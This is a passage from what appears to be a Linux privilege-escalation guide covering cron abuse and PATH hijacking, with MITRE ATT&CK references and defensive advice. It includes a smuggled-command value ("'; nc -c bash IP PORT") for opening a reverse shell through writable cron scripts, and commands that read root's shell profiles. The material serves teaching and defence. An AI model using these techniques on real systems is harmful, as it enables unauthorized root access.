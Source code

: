 Interesting cron files:

- **/etc/crontab**: System crontab. Cron will run as the **root** user when executing scripts and commands in this file.
- **/etc/anacrontab**: Cron will run as the **root** user when executing scripts and commands in this file.
*Nowadays the file is empty by default.
Originally it was usually used to run daily, weekly, monthly jobs. By default these jobs are now run through anacron which reads /etc/anacrontab configuration file.*
- **/var/spool/cron**: Directory that contains user crontables created by the crontab command.
- **/etc/cron.d:**: Directory that contains system cronjobs stored for different users.

Cron examines all stored crontabs and checks each job to see if it needs to be run in the current minute.

1. Search if there are script executed that you can write
2. Search for wildcard injection vulnerability such as tar, chown and chmod (cc Wildcard)
3. Search for execution within the script that use a folder or file that can be changed to '; nc -c bash IP PORT

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Ensure permissions on /etc/crontab, /etc/cron.hourly, /etc/cron.daily, /etc/cron.monthly and /etc/cron.d are configured
- *Architecture*: Ensure at/cron is restricted to authorized user
- *Architecture*: Ensure that scripts that may be run by cron are only accessible by privileges users
- *Active Defense*: Detect modifications made to cron jobs

For more information about that technique refer to [T1053.003 - Scheduled Task/Job: Cron](https://attack.mitre.org/techniques/T1053/003/)

#### $PATH

##### User

```bash
echo $PATH
```

If you notice '.' in environment PATH variable it means that the logged user can execute binaries/scripts from the current directory and it can be an excellent technique for an attacker to escalate root privilege.

For more information about that technique refer to [T1574.007 - Hijack Execution Flow: Path Interception by PATH Environment Variable](https://attack.mitre.org/techniques/T1574/007/)

##### Root

It may be possible that the PATH of root has been modified for a certain reason.
If there is a directory in the PATH of root where we have writable access, we could stage malicious scripts, binairies or librairies so that there are executed as root when he execute them.

```bash
grep -nr PATH /etc/profile.d
cat /root/.bash_profile -print 2>/dev/null
cat /root/.bashrc -print 2>/dev/null
```
